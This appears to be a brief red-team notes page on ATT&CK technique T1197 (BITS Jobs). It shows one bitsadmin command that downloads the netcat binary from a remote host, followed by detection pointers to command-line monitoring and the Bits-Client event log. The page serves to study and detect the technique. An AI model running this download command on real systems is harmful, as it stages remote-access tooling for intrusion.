


# T1197: BITS Jobs

## Execution


```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```




## Observations

Commandline arguments monitoring can help discover bitsadmin usage:



`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor as well. An example of one of the jobs:


## References



